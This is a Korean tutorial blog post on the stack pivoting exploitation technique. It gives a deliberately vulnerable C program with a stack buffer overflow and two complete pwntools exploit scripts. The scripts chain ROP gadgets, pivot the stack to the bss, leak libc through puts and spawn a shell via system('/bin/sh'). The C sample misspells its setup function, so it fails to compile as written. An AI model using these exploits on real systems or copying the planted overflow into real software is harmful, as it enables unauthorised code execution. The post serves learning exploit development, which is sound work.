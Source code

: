 ```yaml
---
tistoryBlogName: k0n9
tistoryTitle: stack pivot
tistoryVisibility: "3"
tistoryCategory: "0"
tistorySkipModal: true
tistoryPostId: "39"
tistoryPostUrl: https://k0n9.tistory.com/39
---
```

## stack pivoting이란?

ROP를 하고 싶은데 BOF가 ret까지만 덮을수 있을경우(overflow가 많이 나지 않은 경우)혹은 main으로 돌아갈 수 없는 경우에 하는 방법이다

## 공격방법

gadget을 이용해서 쓰기 가능한 공간에 Fake Stack을 구성해놓고 chaining하는 기법이다.

특정 영역에 값이 있거나 값을 쓸수 있을경우 SFP를 이용하여 스택을 옮기고 해당 부분의 코드를 실행한다. 즉 어떤 공간을 스택처럼 사용하는 것이다.

예를 들면 sfp에 bss주소를 넣고 read등의 함수를 사용한다. 그리고 leave_ret 가젯을 통해 rbp를 bss로 보내 bss를 스택처럼 사용한다. 그리고 ret으로 그 이후의 명령어들을 실행시킨다

#### 예제
```c
//gcc -o pivot pivot.c -fno-stack-protector -z now -no-pie
#include <stdio.h>
  
void setup_environment() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}
  
void tools(){
asm (
    "pop %r14;"
    "pop %r15;"
    "ret;"        
    "pop %rdx;"
    "ret;"
);
}

int loop = 0;

int main(){
	char buf[0x30];
	
	setup_environmnet();
	
	if(loop == 1)
	{
		puts("no loop");
		exit(-1);
	}
	loop = 1;
	
	read(0, buf, 0x70);

	return 0;
}
```

익스코드

```python
from pwn import *
import time

# context.log_level = 'debug' 

e = ELF('./pivot')
e1 = e.libc                             
p = process('./pivot')

leave = 0x401271
rdi = 0x401206

binsh_addr = next(e1.search(b"/bin/sh\\x00"))      #/bin/sh 주소 찾기

rsi_r15 = 0x401204
rdx = 0x401208
ret = 0x401207
bss = 0x404020
read_plt = 0x401080
put_plt = 0x401070
put_got = 0x403fd0

ex = b'a'*0x30
ex += p64(bss+0x100)
ex += p64(rdi)
ex += p64(0)
ex += p64(rsi_r15)
ex += p64(bss+0x100)
ex += p64(0)
ex += p64(read_plt)
ex += p64(leave)

p.send(ex)

ex2 = p64(bss+0x700)
ex2 += p64(ret)
ex2 += p64(rdi)
ex2 += p64(put_got)
ex2 += p64(put_plt)
ex2 += p64(rdi)
ex2 += p64(0)
ex2 += p64(rsi_r15)
ex2 += p64(bss+0x700)
ex2 += p64(0)
ex2 += p64(rdx)
ex2 += p64(0x40)
ex2 += p64(read_plt)
ex2 += p64(leave)

time.sleep(1)
p.send(ex2)

put_leak = u64(p.recv(6)+b"\\x00\\x00")

put_off = 0x80ed0

libc_base = put_leak - put_off

system = libc_base + 0x50d60 #얘는 system 오프셋

binsh = libc_base + binsh_addr

ex3 =  p64(0xdeadbeef)
ex3 += p64(ret)
ex3 += p64(rdi)
ex3 += p64(binsh)
ex3 += p64(system)

time.sleep(1)
p.send(ex3)

p.interactive()
```

1. (ex1)buf를 채움
2. sfp를 bss+0x100으로 채움
3. 가젯을 이용해 read함수를 실행하고 다음에 실행할 작업을 bss+0x100에다 적음
4. leave를 통해 rbp가 bss+0x100으로 감
5. ret에는 read함수를 위한 가젯이 있고 read함수에 두번째 입력
6. 입력후에 leave_ret 가젯, leave로 rbp를 처음 8byte(bss+0x700)로 보내버리고 ret으로 그 아래 명령어들 실행
7. (ex2) 처음 8byte는 다시 rbp를 보낼 주소를 적어야 함. 그러니 bss+0x700을 적음
8. 그리고 put함수로 put의 실제주소 구함
9. put의 실제주소 - put의 오프셋(vmmap을 이용한 오프셋 구하기) = libc_base
10. libc_base + system의 오프셋 = system의 실제 주소
11. search로 구한 /bin/sh의 주소 + libc_base = /bin/sh의 실제 주소
12. 그리고 다시 read함수 실행
13. leave로 rbp를 처음 8byte로 보냄(여기서는 이후 작업이 없으니 쓰레기 값(0xdeadbeef)로 채우고 ret으로 이후 명령어들 실행
14. (ex3) 처음 8byte는 이후 작업이 없으니 쓰레기로 채움
15. system 함수 실행


![](https://i.imgur.com/D8E0oOS.png)

가젯이 rdi밖에 없으면 아래와 같이 main의 read를 사용할 수도 있다.
```python
from pwn import *
import time
  
context.log_level = 'debug'
  
e = ELF('./pivot')
e1 = e.libc      
p = process('./pivot')
  
pause()
leave = 0x401271
rdi = 0x401206
  
binsh_addr = next(e1.search(b"/bin/sh\x00"))      #/bin/sh 주소 찾기
  
ret = 0x401207
bss = 0x404020
put_plt = 0x401070
put_got = 0x403fd0
read_plt = 0x0000000000401251
  
ex = b'a'*0x30
ex += p64(bss+0x100)
ex += p64(read_plt)
ex += p64(leave)
  
p.send(ex)
  
# pause()
  
ex2 = b'a'*0x30
ex2 += p64(bss+0x700)
ex2 += p64(rdi)
ex2 += p64(put_got)
ex2 += p64(put_plt)
  
ex2 += p64(read_plt)
ex2 += p64(leave)
  
time.sleep(1)
  
p.send(ex2)
  
put_leak = u64(p.recv(6)+b"\x00\x00")
  
 
put_off = 0x80ed0
  
libc_base = put_leak - put_off
  
system = libc_base + 0x50d60 #얘는 system 오프셋
  
binsh = libc_base + binsh_addr
  
ex3 = b'a'*0x30
ex3 += p64(0xdeadbeef)
ex3 += p64(ret)
ex3 += p64(rdi)
ex3 += p64(binsh)
ex3 += p64(system)
  
time.sleep(1)
p.send(ex3)
  
p.interactive()
```




### 예제_제공파일
나나중중
